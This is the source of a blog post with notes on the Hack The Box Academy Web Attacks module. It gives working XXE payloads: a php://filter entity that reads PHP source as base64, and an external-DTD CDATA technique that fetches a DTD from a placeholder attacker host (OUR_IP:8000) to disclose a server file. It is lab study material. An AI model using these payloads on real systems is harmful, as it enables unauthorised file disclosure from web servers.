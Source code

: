 ```yaml
---
layout: post
title:  "Hack The Box - Academy - Web Attacks"
description: "Explore this detailed walkthrough of Hack The Box Academy's Web Attacks module. Learn effective techniques to perform http verb tampering,Insecure Direct Object References (IDOR), XML External Entity (XXE) Injection and  elevate your penetration testing skills with step-by-step insights from Zwarts Sec."
date:   2024-11-07 21:41
image:  /images/htb/web-attacks/logo.png
tags:   [httb-verb-tampering,idor,xxe,cbbh]
categories: [htbacademy]
---
```


### Explore this detailed walkthrough of Hack The Box Academy's Web Attacks module. Learn effective techniques to perform http verb tampering,Insecure Direct Object References (IDOR), XML External Entity (XXE) Injection

>
<b>Links:</b>
<br/>
<a href="https://academy.hackthebox.com/module/134/section/1158">Web Attacks</a><br/>
<a href="https://jacozwarts.github.io/images/htb/web-attacks/Web_Attacks_Module_Cheat_Sheet.pdf">Web Attacks - Cheat Sheet</a><br/>

# Notes:

### XXE

#### Read PHP source code with `base64` encode filter

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
    <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
<root><name>Test</name>
<tel>01234566789</tel>
<email>&company;</email>
<message>Testing form</message>
</root>
```

#### Using CDATA to extract file content:
<a href="https://academy.hackthebox.com/module/134/section/1206">Hack The Box - Advanced File Disclosure</a><br/>

Create the xxe.dtd file and spin up a webserver on port 8000
```
echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
python3 -m http.server 8000
```
```
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>

<email>&joined;</email>
```

<hr/>